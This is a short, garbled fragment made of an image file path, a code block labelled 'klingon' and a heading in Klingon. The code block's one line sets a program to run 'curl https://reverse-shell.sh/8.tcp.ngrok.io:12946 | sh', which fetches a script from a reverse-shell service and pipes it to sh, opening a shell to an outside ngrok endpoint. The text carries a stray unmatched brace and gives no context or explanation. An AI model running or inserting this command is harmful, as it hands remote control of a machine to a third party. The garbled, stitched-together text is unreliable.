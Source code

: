 ```klingon
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### QaQHa' vItlhutlh
